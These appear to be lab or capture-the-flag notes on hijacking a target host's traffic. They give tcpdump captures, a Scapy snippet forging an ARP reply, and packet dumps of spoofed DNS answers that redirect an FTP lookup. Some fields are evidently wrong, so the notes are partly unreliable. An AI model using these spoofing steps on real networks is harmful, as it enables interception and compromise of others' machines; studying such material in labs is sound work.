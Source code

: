Host 10.6.6.35 is attacker controlled. Get command line access.
Pingable from main host
	* Have network connectivity


	Local network is 10.6.0.3/16 so we have direct L2 connectivity to the attacker server


	# Sample provided scripts
	arp_res.py
		* Comments in the script indicate that we need to construct a ARP response to steer traffic to our host
	dns_res.py
		* Comments in the script indicate that we need to construct a DNS response to steer traffic either to our host or another host.

	
	# Sample packet captures - Can use these to extract the full ARP fields if needed.

	ARP Request looking for IP address 10.10.10.1
    		1   0.000000 cc:01:10:dc:00:00 → ff:ff:ff:ff:ff:ff ARP 60 Who has 10.10.10.1? Tell 10.10.10.2
    ARP Reply responding with with MAC for IP 10.10.10.1
		    2   0.031000 cc:00:10:dc:00:00 → cc:01:10:dc:00:00 ARP 60 10.10.10.1 is at cc:00:10:dc:00:00

	DNS Request - tshark
		    1   0.000000 192.168.170.8 → 192.168.170.20 DNS 74 Standard query 0x75c0 A www.netbsd.org
	DNS Response - tshark
		    2   0.048911 192.168.170.20 → 192.168.170.8 DNS 90 Standard query response 0x75c0 A www.netbsd.org A 204.152.190.12


	They say to capture without name resolution otherwise it will hang
	tshark -nnr arp.pcap
	tcpdump -nnr arp.pcap

	-r is for read only need the -nn for host and port numberes

	Capturing on the interface (eth0) on the host we see that the attacker is arping for a MAC for 10.6.6.53.

	```
	guest@4e6ce9945b36:~$ tcpdump -nn -i eth0 arp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
01:19:44.513407 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
01:19:45.545516 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
01:19:46.589695 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
01:19:47.629401 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
01:19:48.673522 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
```

Doing some basic thinking, the `.53` here means it is a DNS server and its arping to do a name resolution to do an http GET which will serve out some reverse shell payload we want, or something like that.

Step 1 - Getting the arp response correct
ARP format details here: http://www.tcpipguide.com/free/t_ARPMessageFormat.htm

Incoming Request:
###[ ARP ]### 
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = who-has
  hwsrc     = 4c:24:57:ab:ed:84
  psrc      = 10.6.6.35
  hwdst     = 00:00:00:00:00:00
  pdst      = 10.6.6.53

 Response Should be:
 ###[ ARP ]### 
  hwtype    = 0x2	---
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = is-at (0x02) --
  hwsrc     = 02:42:0a:06:00:03 --
  psrc      = 10.6.6.53 --
  hwdst     = 4c:24:57:ab:ed:84 --
  pdst      = 10.6.6.35 --

Sample constructed with the following code
```python
if __name__ == "__main__":
    a = ARP(pdst="10.6.6.35")

    a.op = 2 # arp reply
    a.plen = 4
    a.hwlen = 6
    a.ptype = 2048
    a.hwtype = 1
    a.hwsrc = "02:42:0a:06:00:03"
    a.psrc = "10.6.0.3"
    a.pdst = "10.6.6.35"
    a.hwdst = "4c:24:57:ab:ed:84"
    a.show()
```
```bash
###[ ARP ]###
  hwtype    = 0x1
  ptype     = IPv4
  hwlen     = 6
  plen      = 4
  op        = is-at
  hwsrc     = 02:42:0a:06:00:03
  psrc      = 10.6.0.3
  hwdst     = 4c:24:57:ab:ed:84
  pdst      = 10.6.6.35
```


Success, DNS request is:
02:43:13.857797 IP 10.6.6.35.57847 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
        0x0000:  4500 003c 0001 0000 4011 5a4d 0a06 0623  E..<....@.ZM...#
        0x0010:  0a06 0635 e1f7 0035 0028 5866 0000 0100  ...5...5.(Xf....
        0x0020:  0001 0000 0000 0000 0366 7470 066f 7375  .........ftp.osu
        0x0030:  6f73 6c03 6f72 6700 0001 0001            osl.org.....
02:43:13.866331 IP 10.6.6.53.53 > 10.6.6.35.52687: 0- 1/0/0 A 10.6.0.3 (62)
        0x0000:  4500 005a 0001 0000 4011 5a2f 0a06 0635  E..Z....@.Z/...5
        0x0010:  0a06 0623 0035 cdcf 0046 3e9d 0000 8100  ...#.5...F>.....
        0x0020:  0001 0001 0000 0000 0366 7470 066f 7375  .........ftp.osu
        0x0030:  6f73 6c03 6f72 6700 0001 0001 0366 7470  osl.org......ftp
        0x0040:  066f 7375 6f73 6c03 6f72 6700 0001 0001  .osuosl.org.....
        0x0050:  0000 0000 0004 0a06 0003                 ..........

From the capture, it looks like the victim is trying to resolve an FTP server. So, we'll serve them a DNS record pointing back to the attacker (us) and wait for the FTP connection next.

UDP packet received
###[ Ethernet ]### 
  dst       = 02:42:0a:06:00:04
  src       = 4c:24:57:ab:ed:84
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 60
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = 0x5a4d
     src       = 10.6.6.35
     dst       = 10.6.6.53
     \options   \
###[ UDP ]### 
        sport     = 34972
        dport     = domain
        len       = 40
        chksum    = 0xb1c1
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 0
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'ftp.osuosl.org.'
            |  qtype     = A
            |  qclass    = IN
           an        = None
           ns        = None
           ar        = None


DNS Sample Response
###[ DNS ]###
  id        = 0				//set from packet
  qr        = 1				//?
  opcode    = QUERY  		//?
  aa        = 0				//?
  tc        = 0				//?
  rd        = 1				//?
  ra        = 1				//set to 1
  z         = 0				//?
  ad        = 0				//?
  cd        = 0				//?
  rcode     = ok			//?
  qdcount   = 1				// set to 1 - query record from the request
  ancount   = 5				// set to 1
  nscount   = 0				//?
  arcount   = 0				//?
  \qd        \
   |###[ DNS Question Record ]###
   |  qname     = 'www.thepacketgeek.com.'
   |  qtype     = A
   |  qclass    = IN
  \an        \
   |###[ DNS Resource Record ]###
   |  rrname    = 'www.thepacketgeek.com.'
   |  type      = CNAME
   |  rclass    = IN
   |  ttl       = 299
   |  rdlen     = None
   |  rdata     = 'thepacketgeek.github.io.'
   |###[ DNS Resource Record ]###
   |  rrname    = 'thepacketgeek.github.io.'
   |  type      = A
   |  rclass    = IN
   |  ttl       = 3599
   |  rdlen     = None
   |  rdata     = 185.199.108.153
   |###[ DNS Resource Record ]###
   |  rrname    = 'thepacketgeek.github.io.'
   |  type      = A
   |  rclass    = IN
   |  ttl       = 3599
   |  rdlen     = None
   |  rdata     = 185.199.109.153
   |###[ DNS Resource Record ]###
   |  rrname    = 'thepacketgeek.github.io.'
   |  type      = A
   |  rclass    = IN
   |  ttl       = 3599
   |  rdlen     = None
   |  rdata     = 185.199.110.153
   |###[ DNS Resource Record ]###
   |  rrname    = 'thepacketgeek.github.io.'
   |  type      = A
   |  rclass    = IN
   |  ttl       = 3599
   |  rdlen     = None
   |  rdata     = 185.199.111.153
  ns        = None
  ar        = None



.###[ Ethernet ]### 
  dst       = 02:42:0a:06:00:02
  src       = 4c:24:57:ab:ed:84
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 60
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = 0x5a4d
     src       = 10.6.6.35
     dst       = 10.6.6.53
     \options   \
###[ UDP ]### 
        sport     = 58168
        dport     = domain
        len       = 40
        chksum    = 0x5725
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 0
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'ftp.osuosl.org.'
            |  qtype     = A
            |  qclass    = IN
           an        = None
           ns        = None
           ar        = None

.###[ Ethernet ]### 
  dst       = 4c:24:57:ab:ed:84
  src       = 02:42:0a:06:00:02
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = None
     tos       = 0x0
     len       = None
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = None
     src       = 10.6.6.53
     dst       = 10.6.6.35
     \options   \
###[ UDP ]### 
        sport     = domain
        dport     = 33298
        len       = None
        chksum    = None
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 1
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'ftp.osuosl.org.'
            |  qtype     = A
            |  qclass    = IN
           \an        \
            |###[ DNS Resource Record ]### 
            |  rrname    = 'ftp.osuosl.org.'
            |  type      = CNAME
            |  rclass    = IN
            |  ttl       = 0
            |  rdlen     = None
            |  rdata     = '10.6.0.2'
           ns        = None
           ar        = None